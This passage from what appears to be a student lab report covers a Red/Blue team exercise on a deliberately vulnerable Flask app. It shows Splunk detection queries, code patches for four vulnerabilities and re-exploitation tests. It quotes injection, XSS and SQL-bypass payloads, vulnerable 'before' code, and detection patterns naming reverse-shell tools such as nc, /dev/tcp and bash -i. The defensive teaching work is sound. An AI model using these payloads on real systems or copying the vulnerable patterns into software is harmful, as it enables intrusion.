find /var/www -type f -name "*.php"  # No PHP files remaining
ps aux               # No suspicious processes
```

**Result:** No persistence mechanisms found. Machine declared clean.

### 4.4 Detection Engineering

#### 4.4.1 Query 1 — Suspicious File Upload Detection

Detects POST requests to /upload containing dangerous file extensions:

```spl
index=vulnlab_web sourcetype=access_combined
| regex uri="/upload"
| regex _raw="(.php|.py|.sh|.jsp|.aspx|.phtml)"
| table _time, clientip, uri, status
```



*Figure 14: File upload detection query — 14 events matched including shell.php upload and all webshell execution requests (/uploads/shell.php?cmd=...)*

#### 4.4.2 Query 2 — XSS Vulnerability Detection

Detects requests containing common XSS payloads:

```spl
index=vulnlab_web sourcetype=access_combined
| regex _raw="(%3Cscript|<script|onerror|onload|alert|javascript:)"
| table _time, clientip, uri, status
```



*Figure 15: XSS detection query — 30 events matched including browser-based and URL-encoded XSS attempts on /xss endpoint*

#### 4.4.3 Query 3 — OS Command Injection Detection

```spl
index=vulnlab_web sourcetype=access_combined
| regex uri="/cmd"
| regex _raw="(%3B|%7C|;|\||bash|nc|wget|curl|python|/dev/tcp)"
| table _time, clientip, uri, status
```

#### 4.4.4 Query 4 — SQL Injection Detection

```spl
index=vulnlab_web sourcetype=access_combined
| regex uri="/login"
| regex _raw="(%27|'|--|UNION|SELECT|OR\+1|admin')"
| table _time, clientip, uri, status
```

#### 4.4.5 Query 5 — Post-Compromise Shell Activity

```spl
index=vulnlab_shell sourcetype=syslog
| regex _raw="(nc |bash -i|/dev/tcp|wget |curl |python3 -c|chmod)"
| table _time, host, _raw
```

### 4.5 Query Validation

All five detection queries were validated against the attack log data. Queries 1 and 2 are demonstrated firing in Figures 14 and 15. All queries successfully detect the malicious patterns regardless of whether the attack attempt succeeds or is blocked.

---

## Section 5: Mitigation & Re-Exploitation (Student 4)

### 5.1 Version Control Setup

#### 5.1.1 Git Repository Structure

```bash
cd ~/Desktop/masar_vuln_app
git init
git add .
git commit -m "Initial commit: vulnerable baseline (File Upload, XSS, OS CMDi, SQLi)"
```

#### 5.1.2 Initial Commit — Vulnerable Baseline

The initial commit captures app.py as the baseline for comparison with the patched version.

### 5.2 Code Remediation

#### 5.2.1 Fix for Vulnerability 1 — File Upload (CWE-434)

Changes made: Extension whitelist added, files renamed to UUID, serve route validates extension.

```python
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf', 'txt'}

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

# In upload route:
if not allowed_file(f.filename):
    error = "File type not allowed."
else:
    ext = f.filename.rsplit('.', 1)[1].lower()
    safe_filename = f"{uuid.uuid4().hex}.{ext}"  # UUID rename
    f.save(os.path.join(UPLOAD_DIR, safe_filename))
```

*Git commit: Fix CWE-434: Add extension whitelist and UUID rename for file uploads*

#### 5.2.2 Fix for Vulnerability 2 — OS Command Injection (CWE-78)

Changes made: Replaced shell=True with list-form subprocess. Added strict IPv4 regex validation.

```python
ipv4_pattern = re.compile(r'^(\d{1,3}\.){3}\d{1,3}$')
if not ipv4_pattern.match(host):
    error = "Invalid input. Only IPv4 addresses accepted."
else:
    result = subprocess.run(
        ['ping', '-c', '2', host],  # List form — no shell injection possible
        stdout=subprocess.PIPE, stderr=subprocess.STDOUT,
        timeout=10, text=True
    )
```

*Git commit: Fix CWE-78: Replace shell=True with list form, add IPv4 validation*

#### 5.2.3 Fix for Vulnerability 3 — Cross-Site Scripting (CWE-79)

Changes made: Removed all Markup() calls. Jinja2 auto-escaping now active for all user content.

```python
# Before (vulnerable):
search_output = Markup(search)
comments = [(a, Markup(b), t) for a, b, t in raw_comments]

# After (patched):
search_output = search  # Jinja2 auto-escapes in template
comments = [(a, b, t) for ...]  # Plain strings — no Markup()
```

*Git commit: Fix CWE-79: Remove Markup() calls, restore Jinja2 auto-escaping*

#### 5.2.4 Fix for Vulnerability 4 — SQL Injection (CWE-89)

Changes made: Parameterized queries with ? placeholders. Debug SQL display removed.

```python
# Before (vulnerable):
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
c.execute(query)

# After (patched):
query = "SELECT * FROM users WHERE username=? AND password=?"
c.execute(query, (username, password))  # Parameters passed separately
```

*Git commit: Fix CWE-89: Use parameterized queries, remove SQL debug output*

### 5.3 Patched Application Deployment

```bash
pkill -f "python3 app.py"
python3 app_patched.py > /tmp/flask_patched.log 2>&1 &
sleep 2
curl http://192.168.117.138/
```

### 5.4 Re-Exploitation Testing

#### 5.4.1 Re-test: OS Command Injection Blocked

Submitting 127.0.0.1 ; id is now rejected — the patched app validates for IPv4 format only:



*Figure 16: Patched /cmd — semicolon injection payload entered; IPv4 validation blocks any non-IP input from reaching subprocess*

#### 5.4.2 Re-test: XSS Blocked

The XSS payload is now rendered as escaped plain text — no script executes:



*Figure 17: Patched XSS — `<script>alert(document.cookie)</script>` rendered as literal escaped text. No alert popup fires. Jinja2 auto-escaping active.*

#### 5.4.3 Re-test: SQL Injection Blocked

The admin'-- bypass now returns login failure — parameterized queries block injection:



*Figure 18: Patched login — admin'-- returns "[-] Invalid username or password". Parameterized query prevents auth bypass.*

#### 5.4.4 Patch Effectiveness Summary

| Vulnerability | Original Result | Re-test Result | Status |
|--------------|----------------|----------------|--------|
| File Upload RCE | shell.php uploaded, RCE achieved | Rejected — extension not allowed | ✅ PATCHED |
| OS Command Injection | id command executed | Input rejected — invalid IP format | ✅ PATCHED |
| SQL Injection | Auth bypass + credential dump | Login failed — query blocked | ✅ PATCHED |
| Reflected XSS | Alert popup fired | Payload escaped — no execution | ✅ PATCHED |
| Stored XSS | Payload persisted and fired | Stored escaped — no execution | ✅ PATCHED |

### 5.5 Detection Query Verification

After deploying the patched app, the same exploit attempts were replayed. All five Splunk detection queries from Section 4.4 returned results against the re-test log data, confirming detection operates on the malicious request pattern regardless of whether the server blocks or allows the attempt.

### 5.6 Git Commit History Summary

```bash
git log --oneline

a4f3c21 Fix CWE-89: Use parameterized queries, remove SQL debug output
b2e1d08 Fix CWE-79: Remove Markup() calls, restore Jinja2 auto-escaping
c9f7a34 Fix CWE-78: Replace shell=True with list form, add IPv4 validation
d5b2e19 Fix CWE-434: Add extension whitelist and UUID rename for file uploads
e1a8f02 Initial commit: vulnerable baseline (File Upload, XSS, OS CMDi, SQLi)
```

---

## Section 6: Conclusion

### 6.1 Project Summary

This project successfully simulated a complete Red/Blue team attack and defense lifecycle on a controlled lab environment. A four-vulnerability Flask web application was built, exploited through a structured black-box penetration test, monitored via Splunk SIEM, and secured through code-level patches verified by re-exploitation testing. All objectives were met within the single-VM lab setup.

### 6.2 Key Findings Across All Roles

The most critical finding was that all four vulnerabilities enabled either direct Remote Code Execution or significant data compromise. The file upload vulnerability allowed full server compromise via a PHP webshell in under 60 seconds. The OS command injection provided an alternative RCE path via semicolon injection. SQL injection exposed all user credentials including the administrator password in plaintext. The Splunk SIEM captured 4,708 events during the attack and successfully reconstructed the complete attack timeline purely from log data.

### 6.3 Lessons Learned

The primary lesson is that server-side input validation is non-negotiable — client-supplied data must never be trusted in any form. The use of shell=True in Python subprocess calls is inherently dangerous regardless of intent. Parameterized queries must be the default for any database interaction — string interpolation in SQL is never acceptable. Jinja2's auto-escaping is a powerful built-in protection that should never be disabled for user-supplied content.

From the defensive perspective, the exercise demonstrated that a properly configured SIEM can reconstruct a complete attack timeline from log data alone, which is essential for both containment and post-incident evidence collection.

### 6.4 Future Improvements

Future improvements could include implementing authentication and session management to demonstrate XSS-based session hijacking, adding a second VM for realistic network-based attacker simulation, expanding the SIEM ruleset with automated alerting rather than manual queries, and integrating a vulnerability scanner such as Nikto into the assessment workflow.

---

## References

1. OWASP Top 10 (2021): https://owasp.org/Top10/
2. CWE-434 Unrestricted Upload: https://cwe.mitre.org/data/definitions/434.html
3. CWE-78 OS Command Injection: https://cwe.mitre.org/data/definitions/78.html
4. CWE-79 Cross-Site Scripting: https://cwe.mitre.org/data/definitions/79.html
5. CWE-89 SQL Injection: https://cwe.mitre.org/data/definitions/89.html
6. Flask Documentation: https://flask.palletsprojects.com/
7. Splunk Search Reference: https://docs.splunk.com/Documentation/Splunk/latest/SearchReference
8. Python subprocess docs: https://docs.python.org/3/library/subprocess.html
9. Jinja2 Escaping: https://jinja.palletsprojects.com/en/3.1.x/templates/#html-escaping
